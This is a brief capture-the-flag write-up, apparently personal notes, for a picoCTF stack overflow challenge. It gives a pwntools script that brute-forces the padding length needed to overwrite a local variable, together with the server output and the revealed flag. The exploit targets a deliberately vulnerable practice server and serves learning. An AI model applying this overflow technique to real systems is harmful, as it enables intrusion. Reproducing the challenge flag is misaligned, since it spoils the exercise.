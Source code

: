 ```yaml
---
created: 2024-08-08T02:36
updated: 2024-08-08T02:41
---
```

Brute force the overflow.

```python
from pwn import *
context.log_level = 'error'
# nc saturn.picoctf.net 57660
for i in range(100):
    r = remote('saturn.picoctf.net', 57660)
    r.sendlineafter(b': ', b'a'*i+p32(65))
    print(i, r.recvall())
    r.close()
```

```
23 b'\nnum is 0\nBye!\n'
24 b'\nnum is 65\nYou win!\npicoCTF{l0c4l5_1n_5c0p3_7bd3fee1}\n'
25 b'\nnum is 16737\nBye!\n'
```

Huh, it is not 16.
Maybe there is some padding?

```flag
picoCTF{l0c4l5_1n_5c0p3_7bd3fee1}
```
